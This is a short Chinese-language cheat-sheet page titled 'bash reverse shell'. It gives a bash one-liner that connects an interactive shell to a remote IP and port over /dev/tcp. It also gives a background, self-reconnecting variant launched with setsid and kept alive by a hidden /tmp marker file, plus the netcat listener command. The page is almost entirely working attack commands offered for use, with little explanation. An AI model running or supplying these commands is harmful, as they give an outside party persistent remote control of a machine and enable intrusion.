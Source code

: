 bash反向shell

```shell
export IP="" PORT="" # nc监听的ip端口
bash -i >& /dev/tcp/$IP/$PORT 0>&1 # 直接运行

# 开新任务, 能后台运行, 自动重连
setsid bash -c 'touch /tmp/.bash-shell.keep; while test -f /tmp/.bash-shell.keep; do bash -i &> /dev/tcp/'$IP'/'$PORT' 0>&1; sleep 1 ; done' 2>/dev/null
# 停止自动重试连接, 不会自动关掉已经反弹的Shell
rm /tmp/.bash-shell.keep
```

nc监听
```shell
nc -l $PORT
```

相关:
[netcat](./netcat.md)